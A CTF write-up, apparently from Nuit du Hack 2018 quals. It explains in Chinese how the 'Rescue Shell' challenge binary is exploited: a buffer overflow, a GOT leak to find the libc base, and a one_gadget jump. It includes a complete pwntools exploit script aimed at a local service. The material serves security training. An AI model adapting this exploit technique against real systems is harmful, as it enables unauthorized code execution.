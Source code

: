 # Nuit du Hack CTF Quals 2018 - Notes

## BaseX
> Description:
>
> BaseX stores datas from stdin into a buffer.

## Rescue Shell
> Description:
>
> RescueShell gives shell access to admins for debugging purposes. Temporarily disabled due to security issues.

可以看到他的保護只有開 DEP ，然後 check_passphrase() 中有很明顯的 buffer overflow

所以整個解體流程是:
1. overflow 控制 rip
2. leak got 來算 base
3. one_gadget 

那 leak 可以使用 main 中的 strlen 那

先跳到那邊讓他把 rax 設為 8 ，之後下面就是 write(1, rbp-0x150, rax)

所以在一開始要 overflow 時，要先把 rbp 設好，這邊假設要 leak fclose@got

那在一開始 overflow 時，就先將 rbp 設為 fclose@got + 0x150

這樣完成後就可以算出 libc ，之後再 overflow 一次後跳 one_gadget_rce
```
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
r = remote('127.0.0.1', 1234)

r.recvuntil(": ")
# raw_input("#")
trash = 'a'*64
pop_rdi = 0x0000000000400a93
string_eight = 0x400abc
strlen_call = 0x004009ca
fclose_got = 0x0000000601220
fclose_off = 0x0006e3f0
one_gadget_off = 0x45526

pad = flat([ fclose_got+0x150 , pop_rdi, string_eight, strlen_call ])
r.sendline(trash + pad)
base = u64(r.recv(8)) - fclose_off
print "base: ",hex(base)

r.send("a"*72 + p64(base+one_gadget_off))
r.interactive()
```